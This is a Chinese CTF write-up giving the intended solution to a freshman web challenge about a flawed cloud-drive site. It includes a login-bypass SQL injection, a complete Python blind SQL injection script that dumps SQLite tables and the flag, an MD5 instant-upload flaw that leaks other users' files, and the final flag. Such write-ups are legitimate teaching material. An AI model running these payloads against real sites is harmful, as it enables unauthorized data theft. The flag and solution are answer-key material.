 # 漏洞百出的FAST网盘！

## 缘起

临近新生赛，koali绞尽脑汁都没想到要出什么题，直到想起某一次打比赛遇到的网盘，一拍脑袋决定也出一个网盘。那段时间刚好pyy在搞amis，恳切地希望koali用一下他的amis_helper，并为这个网盘提出了建设性的意见，于是决定超前试用一下。

考虑到是作为新生赛题，在希望大伙学到一点东西的同时，又不能太为难大家，于是从最简单的万能密码起手，再到没有过滤的SQL盲注；最后一问的秒传思路比较清奇，不太容易想到（别打我，打pyy），不过看完wp应该会有一种恍然大悟的感觉(●'◡'●)确信！



## 预期解

### 什么什么，万能密码？

如题，直接通过万能密码登录

![image-20230513204620869](image-20230513204620869.png)

因为背后是个sqlite，默认注释采用`--`的形式，输`#`会给你报错。

### babySQL!

简单的SQl盲注。后来给了Hint说flag在数据库里，所以做法是从用户名密码这个位置注入，把数据库里面的东西都注出来就好辣，下面附上盲注脚本：

```python
import requests

cookies = {}
headers = {}
json_data = {
    'passwd': 'a',
    'uname': 'a',
}
payload = ""
url = ""

def crack_sql():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 128
        mid = (low + high) // 2
        while (low < high):
            # payload = "1' or substr((select hex(group_concat(name)) from sqlite_master where type = 'table'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注表名
            # payload = "1' or substr((select hex(group_concat(sql)) from sqlite_master where name = 'flag2'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注出创建时的sql语句，也就是注出列
            payload = "1' or substr((select hex(group_concat(flag)) from flag2),{0},1)>'{1}'/*" . format(i, chr(mid)) # 注出flag
            json_data = {
                "uname": payload,
                "passwd": 'pyy'
            }
            res = requests.post(url,cookies=cookies, headers=headers, json=json_data, verify=False)

            if '登录成功' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if (mid == 32 or mid == 127):
            break
        flag = flag + chr(mid)
        print(flag)

    print('\n' + bytes .fromhex(flag) . decode('utf-8'))


if __name__ == "__main__":
    crack_sql()
```

### 好快的传

这一问需要在注出数据库的基础上才能做，并且可能需要亿点点的脑洞以及大胆的尝试。

数据库里的表有：`amis,flag2,user,file,user_file`，可以看到`file`表里面有两个字段：

```sql
sql.db> select * from file;
+----+-----------+----------------------------------+
| id | filename  | fileMD5                          |
+----+-----------+----------------------------------+
| 1  | flag3.txt | 760b38b5e21803df4e72bf0eb443006b |
| 2  | flag1.txt | dfb076dfb501134d56e51538e5360a1e |
+----+-----------+----------------------------------+
```

你会发现数据库里面存了文件的MD5。

上传文件的时候抓个包，会发现首先过了一层秒传的校验然后再进入正常的upload接口。虽然站在做题的角度不知道这个秒传有什么用，但是你会看到它传了文件的md5和文件名进去。

![image-20230513213037762](image-20230513213037762.png)

![image-20230513213043347](image-20230513213043347.png)

在通过万能密码登陆的这个账号里，有一个flag1，我们可以尝试通过秒传接口上传一个文件名不同但md5相同的文件，查看网盘的情况。这里的msg返回是提示你秒传成功

![image-20230513221410745](image-20230513221410745.png)



去网盘查看，发现多出了一个文件flag111.txt，内容是flag1。

![image-20230513222932863](image-20230513222932863.png)

到这里可以猜测在上传相同md5文件的时候，不会经过upload，而是直接通过秒传将文件链接到当前用户目录下，导致文件泄露。

所以同样，我们可以考虑将flag3的md5发给秒传，然后在网盘里下载下来就好辣~

![image-20230513233810085](image-20230513233810085.png)

如果事先知道[秒传](https://www.helloweba.net/php/636.html),应该一眼就看出来了，如果不知道的话...只能靠脑洞和尝试了。

```
r00t2023{异世相遇,尽享美味!}
```

## 写在最后

虽然感觉题出完的时候思路非常妙，但写wp再复现一遍的时候发现这题有bug，我们没有给每个用户开独立的环境，所相当于如果有一个人拿到flag3链接过来，所有的人都拿到flag了...

（还好没人做出来ヾ(•ω•`)o

源码漏洞百出，大家将就着看。koali的代码水平并不好，还请多多包涵捏~
